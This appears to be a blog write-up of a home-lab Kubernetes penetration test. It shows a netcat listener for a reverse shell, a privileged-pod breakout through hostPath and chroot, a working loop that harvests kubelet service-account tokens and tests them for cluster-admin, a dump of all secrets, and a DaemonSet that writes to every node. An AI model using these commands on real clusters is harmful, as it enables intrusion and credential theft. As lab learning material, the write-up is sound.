# Running the Attack

Now that I had the cluster up and running, it was time to set about the business of attacking it and exploiting the path to cluster compromise.

## 1. Getting into the Pod

Before we can perform any real exploitation, a stable shell on the pod is ideal. On my host machine I set up a netcat listener.

```bash
nc -lvnp 4444
```

I then used the previously discovered command injection issue to start a bash reverse shell which called back to my listener.



This proved to be successful.



And with that I had a proper shell on the compromised pod.

## 2. Escaping the Pod

With access to a pod achieved, there are a few options available to you depending on its network position and what authentication material may be present on its file system. However, for this demonstration, I decided to take the route of breaking out of the pod onto the actual node hosting it, as this usually presents the most fruitful path to further compromise if it can be achieved.

Investigating the configuration of the compromised pod using kubectl on the host, we can see it possesses two particular configurations which are of interest.





These were `privileged: true` and `hostPath: /`. The first of these configurations grants the pod root-level privileges on the host node, bypassing almost all container isolation mechanisms. The second mounts the entire filesystem of the host node into the pod. Together these effectively give us root access to the host's file system.

I first validated that this configuration had been applied by listing out the contents of the `/host` directory.



Here we can see that another file system has clearly been mounted there. From there I used `chroot` to effectively gain shell access to the host using bash. I was able to quickly validate this had succeeded by running a couple of quick commands and reading the node's kubelet.conf.



There we had it, a breakout from the pod into the node itself.

## 3. Leveraging Node Access to Compromise the Cluster

For pods to operate within the cluster they require service accounts which have varying privileges. The kubelet or node handles the authentication material for these service accounts and mounts them into the file systems of the corresponding pods. In order for this to take place, the node must store all of these service account tokens on its own file system. Using the root access I had gained, I was able to go ahead and search for them on the disk as follows.

```bash
find /var/lib/kubelet/pods -path '*serviceaccount/token' -o -path '*kube-api-access*/token' 2>/dev/null
```



This immediately turned up a number of tokens. A token in and of itself is not necessarily enough to escalate one's access to a cluster, however. We want a token that gives us some form of access that might facilitate further compromise and lateral movement — preferably one that effectively gives us admin access to the whole cluster.

How do we do this? In this case I used kubectl and a bash loop to cycle through each token and determine what privileges it possessed. The loop was set to print a message whenever it saw a token which looked like it had cluster-admin privileges. With the small number of tokens on this node, an approach like this probably isn't strictly necessary, but it would almost certainly come in handy on production-grade nodes which might handle tokens for a large number of different pod workloads.

```bash
for t in $(find /var/lib/kubelet/pods -path '*serviceaccount/token' -o -path '*kube-api-access*/token' 2>/dev/null); do
  TOKEN=$(cat "$t")
  echo "== $t =="
  kubectl --server=https://$CP:6443 --insecure-skip-tls-verify --token="$TOKEN" \
    auth can-i --list 2>/dev/null | grep -q '*.*\*.*\*' && echo "  >>> LOOKS LIKE CLUSTER-ADMIN <<<"
done
```



With a potential cluster admin token identified, all that was left was to verify it had the necessary access and permissions.

```bash
export ADMIN_TOKEN=$(cat /var/lib/kubelet/pods/*/volumes/kubernetes.io~projected/kube-api-access-*/token \
  2>/dev/null | head -1)

kubectl --server=https://$CP:6443 --insecure-skip-tls-verify --token=$ADMIN_TOKEN get nodes
kubectl --server=https://$CP:6443 --insecure-skip-tls-verify --token=$ADMIN_TOKEN auth can-i '*' '*' -A
```





Voila! Clear evidence that we had achieved a privileged position within the cluster.

## 4. Achieving High Impact

So what could we actually do with this access? First off, we can use it to query for any secrets that might be present in the cluster.

```bash
kubectl --server="https://${CP}:6443" --insecure-skip-tls-verify --token="${ADMIN_TOKEN}" get secrets -A -o json
```



In this case this wasn't very fruitful as I hadn't really configured any secrets within the cluster.

However, something else we can do is deploy new workloads to nodes within the cluster. In this case I deployed a workload which dropped a file within the file system of the node it was deployed to, proving that this issue could be leveraged to effectively compromise all pods within the cluster.

```bash
cat <<'EOF' | kubectl --server="https://${CP}:6443" --insecure-skip-tls-verify --token="${ADMIN_TOKEN}" apply -f -
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: host-tmp-demo
  namespace: kube-system
spec:
  selector:
    matchLabels:
      app: host-tmp-demo
  template:
    metadata:
      labels:
        app: host-tmp-demo
    spec:
      containers:
        - name: demo
          image: busybox
          command: ["sh", "-c", "echo pwned-by-demo > /host-tmp/pwned; sleep 3600"]
          volumeMounts:
            - name: host-tmp
              mountPath: /host-tmp
      volumes:
        - name: host-tmp
          hostPath:
            path: /tmp
            type: Directory
EOF

kubectl --server="https://${CP}:6443" --insecure-skip-tls-verify --token="${ADMIN_TOKEN}" \
  -n kube-system get pods -l app=host-tmp-demo -o wide
```

I was able to prove this had succeeded by checking `/tmp/pwned` in the second node's file system using Multipass.

```bash
multipass exec k8s-w2 -- sudo cat /tmp/pwned
```



With this, I essentially had complete control of the cluster and access to all nodes within it.

# Conclusion

This was a fairly simple attack path, set up primarily to enhance my understanding of Kubernetes and the various misconfigurations that exist within it. As a result, the misconfigurations I exploited, particularly to achieve the pod breakout and the cluster compromise, are relatively extreme and not likely to be found on any Kubernetes deployment that had been at least mildly hardened. However, Kubernetes presents a rich attack surface once the pod layer has been compromised: there are a variety of ways a pod breakout can be achieved that are far more subtle and could well be found in many deployments. This demonstration doesn't even touch on IMDS and other quirks that come with cloud-based deployments of Kubernetes, particularly in AWS.

All in all, I found the experience of learning about Kubernetes penetration testing extremely rewarding and engaging. I'm hoping that at some stage in the future I'll find the time to delve into considerably more complex and realistic attack scenarios.
